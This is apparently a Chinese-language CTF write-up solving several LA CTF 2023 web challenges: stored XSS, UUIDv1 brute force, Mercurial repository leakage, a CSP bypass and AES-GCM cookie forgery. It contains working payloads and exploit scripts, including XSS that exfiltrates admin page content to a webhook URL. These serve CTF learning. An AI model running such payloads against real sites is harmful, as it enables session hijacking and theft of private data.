

# LA CTF

### WEB

#### college-tour

**题目描述**

Welcome to UCLA! To explore the #1 public college, we have prepared a scavenger hunt for you to walk all around the beautiful campus.

**题目分析**

签到题，flag 被分成多处藏在各个页面中，根据字符前的数字确定各个子 flag 的顺序。 

1. HTML comment
   * j03\_4
2. image alt text
   * nd\_j0
3. css unused class font-family
   * S3phI
4. PDF name
   * n3\_bR
5. cookie value
   * U1n\_s
6. javascript code that is never executed
   * AY\_hi

#### metaverse

**题目描述**

Metaenter the metaverse and metapost about metathings. All you have to metado is metaregister for a metaaccount and you're good to metago.

metaverse.lac.tf

You can metause our fancy new metaadmin metabot to get the admin to metaview your metapost!

**题目分析**

又是经典的 express 框架，这里给出文档地址 [express 文档](http://expressjs.com/en/5x/api.html#app.use)

在经过一次漫长的审计之后，总算有点头绪。 在路由 `/friends` 中会以当前用户名为 key 查询 accounts，这就得到了当前用户的账户信息。随后会返回该账户的 friends 信息，包括 username 和 displayName。

所以现在的想法就是让管理员成为我们的朋友，然后直接访问以上路由就可以看到 flag。

添加朋友的路由在 post 的 `/friend`。这里会 post 一个 username，这个参数表示你想要添加的朋友的名字，代码会判断 username 的朋友中是否有 res.locals.user，如果没有就添加。但是关键的问题是我们要添加 admin 为我们的朋友，但以上代码我们只能把自己加为自己的朋友，比如我们向这个路由传入 username=admin，这会导致管理员将我们加为朋友，但是在我们的 friends 数组中依旧是没有管理员的。

所以我们应该要通过某种方式来让管理员访问这个路由，然后把我们加为好友，最终我们自己去访问 get 的 `/friends` 路由就可以看到 flag。

那如何让管理员把我们加为好友呢？审计源码发现是存在一个 XSS 漏洞的，我们可以通过这个漏洞来做到这一点。

在题目页面有一个发表 metaposts 的方框，审计页面源代码可以发现点击页面的 new metapost 按钮会触发以上的函数，从而向后端的 /post 路由提交一个 post 请求。

/post 路由对应的函数会返回一个随机的 id，并把我们提交的内容和这个 id 关联起来。

然后根据页面源码的 **window.open("/post/" + t);** 语句我们会跳转到以下路由函数

这里是直接用上一步返回的 id 所关联的内容作为渲染变量传入模板，并直接输出给我们。所以这里存在一个明显的存储型 XSS 漏洞。所以我们在方框提交一个 XSS payload，让管理员加我们为好友即可。

```javascript
<script>
fetch('/friend',{
	method:'POST',
	headers:{
		"Content-type":'application/x-www-form-urlencoded'
	},
	body:'username=123'
})
</script>
```

提交之后会得到一个 url 链接，直接去题目给的 admin-bot 那里提交，然后管理员就会访问存在 XSS 漏洞的网页并执行我们的 js 代码，最后我们在自己的网页访问 /friends 就可以看到 flag 了。

#### uuid hell

**题目描述**

UUIDs are the best! I love them (if you couldn't tell)!

Site: uuid-hell.lac.tf

**题目分析**

整体逻辑很简单，就是从 Cookie 处获取 id，如果是管理员 id 就发送 flag。

getUser() 函数会输出 管理员和普通用户的 uuid 哈希值，createadmin() 函数可以创建一个管理员 uuid。

获取 flag 的思路如下：

1. 访问 createadmin() 创建管理员 uuid
2. 访问根页面查看上一步创建的管理员 uuid 的哈希值
3. 尝试伪造第一步创建的管理员 uuid，将伪造结果进行哈希签名并于第二步得到的哈希值比较，若相同，则说明伪造成功。

> 由于时间戳的问题，现在似乎无法复现。

所以这其实是一个暴力破解 uuid-1 的题目，相关知识点在 https://versprite.com/blog/universally-unique-identifiers/

> 当然如果你觉得英文难以阅读，可以直接看我写的分析。

> 觉得我写的不好的可以看看国外师傅的
>
> * https://rluo.dev/writeups/web/lactf-web-uuid-hell
> * https://siunam321.github.io/ctf/LA-CTF-2023/Web/uuid-hell/

当然，以下 wp 的思路是更加巧妙的。访问一次主页创建一个 uuid，然后访问 /flag 创建一个 管理员 uuid，之后再次访问主页创建一个 uuid。 所以 /flag 处创建的 uuid 其时间戳必定位于 两次主页的 uuid 之间。

我们笃定这三个 uuid 对应的时间戳只在 time\_low 部分有不同，因为相隔的时间特别短暂。



12小时的磕磕绊绊，终归是完全靠自己写出来了这个题。下面是我写的exp，有模有样嗷！！

**exp**

```python
import re
import requests
import uuid
import hashlib

def getUUIDAndHash(res):

    uuidPattern = re.compile("[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}")
    hashPattern = re.compile("[0-9a-f]{32}")

    hashTable = res.split("<strong>") # 表中第一项是uuid而非哈希
   
    uuid = uuidPattern.findall(hashTable[0])[0]
    adminHash = hashPattern.findall(hashTable[1])
    return uuid,adminHash[-1]

def crack(uuid1,uuid2,hash):
    print('uuid1=',uuid1)
    print("uuid2=",uuid2)
    print("hash=",hash)
    uuid1 = uuid.UUID(uuid1).fields
    uuid2 = uuid.UUID(uuid2).fields
    print(uuid1,uuid2)

    start,end = uuid1[0],uuid2[0]

    i = 1
    while start < end :
        tmp = uuid.UUID(fields=(start+i,uuid1[1],uuid1[2],uuid1[3],uuid1[4],uuid1[5]))
        tmpHash = hashlib.md5(b"admin" + str(tmp).encode()).hexdigest()
        if tmpHash == hash:
            print("目标UUID=",tmp)
            return str(tmp)
            break
        i += 1

def send(url):
     r = requests.get(url)
     uuid1,x = getUUIDAndHash(r.text)
     requests.post(url=url+"/createadmin")
     r1 = requests.get(url)
     uuid2,adminHash = getUUIDAndHash(r1.text)
     targetUUID = crack(uuid1,uuid2,adminHash)
     return targetUUID
     
def main():
    url = "http://47.115.222.18:3500"
    targetUUID = send(url)

    print(requests.get(url=url,cookies={"id" : targetUUID}).text)
if __name__ == "__main__":
    main()
```

#### my-chemical-romance

**题目描述**

When I was... a young boy... I made a "My Chemical Romance" fanpage!

my-chemical-romance.lac.tf

**题目分析**

打开页面是毫无头绪的，无输入点、无上传点，这时候就需要抓包看看：

很明显响应头有个奇怪的字段：Source-Control-Management-Type: Mercurial-SCM

谷歌一下：[Mercurial - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/wiki/Mercurial)

> SCM 是 Source Control Management 的缩写

好的，这是一个跨平台的分布式版本控制软件，这不免让我们想到 git，而 CTF 中 git 常用于 git 泄露，所以是否有 Mercurial 泄露呢？

~~答案是有的，所以我们可以从服务器下载文件。这里直接用官方给出的[工具](https://github.com/p0dalirius/mercurial-scm-extract)，随后的操作就是和 git 泄露常见考点一样，恢复之前的 commit 啥的。~~

记录一下简单的做法：

1. 下载安装hg即调用命令`sudo apt install mecurial`。
2. `hg clone 题目地址`。
3. 调用`hg log` 查看日志，发现两个版本的变更。
4. 调用`hg diff --from 0 --to 1`命令获得flag。

> 复杂的做法可以参看：[my-chemical-romance | Siunam’s Website (siunam321.github.io)](https://siunam321.github.io/ctf/LA-CTF-2023/Web/my-chemical-romance/)

#### 85\_reasons\_why

**题目描述**

If you wanna catch up on ALL the campus news, check out my new blog. It even has a reverse image search feature!

85-reasons-why.lac.tf

**init.py**

```python
import os

from flask import Flask
from flask_sqlalchemy import SQLAlchemy

from dotenv import load_dotenv

load_dotenv()

basedir = os.path.abspath(os.path.dirname(__file__))

app = Flask(__name__)
app.config['SECRET_KEY'] = os.getenv('SECRET_KEY')
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///' + os.path.join(basedir, 'app.db') + '?mode=ro'

db = SQLAlchemy(app)
from app import views

app.config.from_object(__name__)

with app.app_context():
    db.create_all()


```

**models.py**

```python
from app import db
from datetime import datetime

import uuid
import json


class Post(db.Model):
    __tablename__ = 'posts'

    id = db.Column(db.String(36), primary_key=True)
    title = db.Column(db.String(200), nullable=False)
    content = db.Column(db.String(), nullable=False)
    author = db.Column(db.String(200), nullable=False)
    date = db.Column(db.String(20), nullable=False)
    active = db.Column(db.Boolean(), nullable=False)
    images = db.relationship("Image", backref="post", uselist=True)
    comments = db.relationship("Comment", backref="post", uselist=True)

    def __init__(self, title, content, author):
        self.id = str(uuid.uuid4())
        self.title = title
        self.content = content
        self.author = author
        self.date = datetime.now().strftime("%m-%d-%Y, %H:%M:%S")
        self.active = True


class Comment(db.Model):
    __tablename__ = 'comments'

    id = db.Column(db.String(36), primary_key=True)
    author = db.Column(db.String(144), nullable=False)
    comment = db.Column(db.String(144), nullable=False)
    parent = db.Column(db.String(), db.ForeignKey("posts.id"), nullable=False)

    def __init__(self, author, comment):
        self.id = str(uuid.uuid4())
        self.author = author
        self.comment = comment

    def __repr__(self):
        return f'<Comment {self.comment}>'


class Image(db.Model):
    __tablename__ = 'images'

    id = db.Column(db.String(36), primary_key=True)
    b85_image = db.Column(db.String(1000000))
    parent = db.Column(db.String(), db.ForeignKey("posts.id"), nullable=False)

    def __init__(self, b85_image):
        self.id = str(uuid.uuid4())
        self.b85_image = b85_image
    
    def __repr__(self):
        return f'<Image {self.id}>'

```

**utils.py**

```python
import base64
import re

from app.models import Image

# def escape(b_string):
#     re.sub()
#     pass

def serialize_image(pp):
    b85 = base64.a85encode(pp)
    b85_string = b85.decode('UTF-8', 'ignore')

    # identify single quotes, and then escape them
    b85_string = re.sub('\\\\\\\\\\\\\'', '~', b85_string)
    b85_string = re.sub('\'', '\'\'', b85_string)
    b85_string = re.sub('~', '\'', b85_string)

    b85_string = re.sub('\\:', '~', b85_string)
    return b85_string

def deserialize_image(b85):
    ret = b85
    ret = re.sub('~', ':', b85)
    raw_image = base64.a85decode(ret)
    b64 = base64.encodebytes(raw_image).decode('UTF-8')
    return 'data:image/png;base64, ' + b64

def deserialize_images(post):
    ret = []
    for i in range(len(post.images)):
        # It's no longer b85 but oh well
        ret.append(deserialize_image(post.images[i].b85_image))

    return ret
```

**views.py**

```python
from flask import render_template, request, redirect, url_for, flash, jsonify
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

from sqlalchemy import or_, text

from app import app, db
from .models import Post, Image
from .utils import serialize_image, deserialize_images
import os

MAX_IMAGE_SIZE = 1000000

limiter = Limiter (
    get_remote_address,
    app=app,
    default_limits=["360 per hour"],
    storage_uri="memory://",
)


@app.route('/')
def home():
    posts = db.session.query(Post).filter(Post.active == True).all()
    return render_template('home.html', posts=posts[::-1])


@app.route('/about/')
def about():
    return render_template('about.html')


@app.route('/posts', methods=['GET'])
def post():
    p = db.session.query(Post).get(request.args['post_id'])
    if p == None:
        flash('invalid post')
        return redirect(url_for('home'))

    images = deserialize_images(p)
    return render_template('post.html', post=p, images=images)

@app.route('/search')
def search():
    if 'search-query' not in request.args:
        return render_template('search.html', results=[])

    query = request.args['search-query']
    results = db.session.query(Post)\
        .filter(or_(Post.content.contains(query), Post.title.contains(query)))\
        .filter(Post.active).all()

    return render_template('search.html', results=results)


@app.route('/image-search', methods=['GET', 'POST'])
def image_search():
    if 'image-query' not in request.files or request.method == 'GET':
        return render_template('image-search.html', results=[])

    incoming_file = request.files['image-query']
    size = os.fstat(incoming_file.fileno()).st_size
    if size > MAX_IMAGE_SIZE:
        flash("image is too large (50kb max)");
        return redirect(url_for('home'))

    spic = serialize_image(incoming_file.read())

    try:
        res = db.session.connection().execute(\
            text("select parent as PID from images where b85_image = '{}' AND ((select active from posts where id=PID) = TRUE)".format(spic)))
    except Exception:
        return ("SQL error encountered", 500)

    results = []
    for row in res:
        post = db.session.query(Post).get(row[0])
        if (post not in results):
            results.append(post)

    return render_template('image-search.html', results=results)


@app.errorhandler(404)
def page_not_found(error):
    """Custom 404 page."""
    return render_template('404.html'), 404

```

**题目分析**

代码有点多，要耐心一点去看。

[flask-SQlAlchemy 文档](http://www.pythondoc.com/flask-sqlalchemy/quickstart.html#id3)

[廖雪峰](https://www.liaoxuefeng.com/wiki/1016959663602400/1017803857459008)

#### california-state-police

**题目描述**

Stop! You're under arrest for making suggestive 3 letter acronyms!

california-state-police.lac.tf

Admin Bot (note: the adminpw cookie is HttpOnly and SameSite=Lax)

**题目分析**


cookie 中传入 adminpw 参数，值正确就可以获取 flag。


上图未经任何过滤就把 id 参数对应的值回显到页面上，存在 XSS 漏洞。

但注意一下题目的 [CSP](https://www.cnblogs.com/mutudou/p/14373644.html) 策略


默认是不允许加载任何来源的任意资源，但是可以执行内联的 JS 脚本。

如果没有这个 CSP 限制，那常规的操作肯定是让管理员访问 /flag 然后拿到网页的响应，之后向我们的 vps 发送一个携带 cookie 的请求。但是题目描述中已经明确地告诉我们管理员的 cookie 是 [HttpOnly](https://zhuanlan.zhihu.com/p/36197012) 的，这意味着在前端无法通过 JS 拿到 Cookie。

现在该怎么办？虽然可以执行内联的JS代码，但是不能直接获取cookie，并且不能加载其他任何域的资源。

不妨先看看题目描述的提示 [SameSite=Lax](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) 意味着什么（中英结合）：


上图告诉我们 Set-Cookie HTTP 响应标头的 SameSite 属性允许您声明您的 cookie 是否应限制在第一方或同一站点上下文中。

SameSite 属性接受三个值，这里说说第一个 `Lax` 是什么: Cookie 不会在正常的跨站点子请求（例如将图像或框架加载到第三方站点）上发送，而是在用户导航到原始站点时发送（即，在点击链接时）。

如果在最近的浏览器版本中未明确指定 SameSite，则这是默认的 cookie 值（请参阅浏览器兼容性中的“SameSite：默认为 Lax”功能）。


感觉中文的更易于理解，它说我们可以通过顶级导航来发送 Cookie。

> 什么是顶级导航？在这篇文章：https://juejin.cn/post/7011005750143090695

> 如果对以上所说一知半解，推荐看看这篇：https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html

WP 的思路很简单，就是通过顶级导航转到存在 XSS 漏洞的页面并执行我们构造的 JS 代码（发送含有 flag 的页面内容给我们）

> 注意由于 default-src 'none' 使得我们不可直接访问 /flag，只能通过顶级导航。

```javascript
<form method="post" id="theForm" action="/flag" target='bruh'>
    <!-- target 表示提交表单后在哪里显示响应信息 -->
    <!-- Form body here -->
</form>

<script> 
    let w = window.open('','bruh');
    document.getElementById('theForm').submit();
    setTimeout(()=>{
        document.location= `https://webhook.site/bdec584e-7d0e-41af-9dec-84eec09374e5?c=${w.document.body.innerHTML}`
    },500);
</script>
```

> document.body.innerHTML 用于得到一个文档的 html 内容

#### zero-trust

**题目描述**

I was researching zero trust proofs in cryptography and now I have zero trust in JWT libraries so I rolled my own! That's what zero trust means, right?

zero-trust.lac.tf

Note: the flag is in /flag.txt

```javascript
const express = require("express");
const path = require("path");
const fs = require("fs");
const cookieParser = require("cookie-parser");
const crypto = require("crypto");

const port = parseInt(process.env.PORT) || 8080;

const key = crypto.randomBytes(32);

const app = express();

const lists = new Map();

setInterval(function () {
    for (const file of fs.readdirSync("/tmp/pastestore")) {
        if (Date.now() - fs.statSync("/tmp/pastestore/" + file).mtimeMs > 1000 * 60 * 60) {
            fs.rmSync("/tmp/pastestore/" + file);
        }
    }
}, 60000);

function makeAuth(req, res, next) {
    const iv = crypto.randomBytes(16);
    const tmpfile = "/tmp/pastestore/" + crypto.randomBytes(16).toString("hex");
    fs.writeFileSync(tmpfile, "there's no paste data yet!", "utf8");
    const user = { tmpfile };
    const data = JSON.stringify(user);
    const cipher = crypto.createCipheriv("aes-256-gcm", key, iv);
    const ct = Buffer.concat([cipher.update(data), cipher.final()]);
    const authTag = cipher.getAuthTag();
    res.cookie("auth", [iv, authTag, ct].map((x) => x.toString("base64")).join("."));
    res.locals.user = user;
    next();
}

function needsAuth(req, res, next) {
    const auth = req.cookies.auth;
    if (typeof auth !== "string") {
        makeAuth(req, res, next);
        return;
    }
    try {
        const [iv, authTag, ct] = auth.split(".").map((x) => Buffer.from(x, "base64"));
        const cipher = crypto.createDecipheriv("aes-256-gcm", key, iv);
        cipher.setAuthTag(authTag);
        res.locals.user = JSON.parse(cipher.update(ct).toString("utf8"));
        if (!fs.existsSync(res.locals.user.tmpfile)) {
            makeAuth(req, res, next);
            return;
        }
    } catch (err) {
        makeAuth(req, res, next);
        return;
    }
    next();
}

app.use(cookieParser());
app.use(express.urlencoded({ extended: false }));
app.use(express.static(path.join(__dirname, "static")));

const template = fs.readFileSync("index.html", "utf8");

app.get("/", needsAuth, (req, res) => {
    res.type("text/html").send(template.replace("$CONTENT", () => fs.readFileSync(res.locals.user.tmpfile, "utf8")));
});

app.post("/update", needsAuth, (req, res) => {
    if (typeof req.body.content === "string") {
        try {
            fs.writeFileSync(res.locals.user.tmpfile, req.body.content.slice(0, 2048), "utf8");
        } catch (err) {}
    }
    res.redirect("/");
});

app.listen(port, () => {
    console.log(`Listening on port ${port}`);
});

```

**题目分析**

首先给出相关库文档：

* crypto 是 Node.js 的一个库：https://nodejs.org/api/crypto.html#cipherfinaloutputencoding
* fs 是 Node.js 的一个库：https://nodejs.org/api/fs.html#fsreaddirsyncpath-options

由于都是英文版，所以简单说说代码中几个函数是干啥的：

* createCipheriv 是使用给定的算法、密钥和初始向量实例化一个 Cipher 类对象
* cipher.update(data)：用 data 更新此 cipher，在调用 final() 方法之前此方法可多次调用。我猜测这个方法表示加密的意思。
* cipher.final()：一旦调用此方法，就意味着不可以再加密数据。我猜测这可能表示加密完成的意思。
* cipher.getAuthTag()：文档说加密完成之后要调用这个方法。
* createDecipheriv：和 createCipheriv 类似，但是创建一个 Decipher 类对象
* setAuthTag：这个比较重要，贴出英文原图：


文档告诉我们当使用身份验证的加密模式时（目前Node支持 GCM、CCM、OCB、chacha20 等四种），decipher.setAuthTag() 方法被用于传入收到的鉴权标签。若没有提供标签或者密文被篡改，那么 decipher.final() 将会抛出异常，表明密文由于失败的身份验证应被丢弃。

最最重要的一点是当调用 用于 GMC 和 OCB 模式的 `decipher.final()` 方法之前一定要调用 decipher.setAuthTag() 方法。然而题目的代码压根就没调用过 `decipher.final()` 方法，出题人说这会导致不进行密文的身份验证，这意味着我们可以篡改密文！

坦白地说我对 GCM 是什么并不了解，但是出题人告诉我们没有 auth tag check 的 GCM 仅仅是 CTR模式，这意味着加密算法变成了一个流密码加密。

代码中已经明确告知了加密数据的前一部分是 `/tmp/pastes`，通过将密文截断为同长度的字节就可以拿到和这段明文相对应的密文，根据流密码加密原理，此时我们将密文异或上明文就可以得到密钥。这意味着我们可以加密任意一个明文，在本题我们肯定是想加密 `{"tmpfile":"/flag.txt"}`，下面给出我的 WP：

```python=
import base64

test = b"RfRhJmZxvROE0rdLlUCij+6wbYtEAV/Fx0lATgy6fQK/z+wVfaDOW3MgzJ3c3PiRRO79m4gLit2/RLyeBTo="
t1 = base64.b64decode(test)[:23]
print(t1)

t2 = b'{"tmpfile":"/tmp/pastes'
from pwn import xor
key  = xor(t1,t2)

m = b'{"tmpfile":"/flag.txt"}'
ans = xor(m,key)

print(ans)
print(base64.b64encode(ans))

```

### Crypto

#### 前言

等待更新中，不过看了一下难题并不多。

### 参考链接

官方discord：[(814) Discord | #📢announcements | LA CTF](https://discord.com/channels/977474896793853962/978575363573686315)

官方：https://hackmd.io/@lamchcl/r1zQkbvpj

关于警察局那一题：https://github.com/uclaacm/lactf-archive/blob/master/2023/web/california-state-police/solve.txt


[my-chemical-romance | Siunam’s Website (siunam321.github.io)](https://siunam321.github.io/ctf/LA-CTF-2023/Web/my-chemical-romance/)


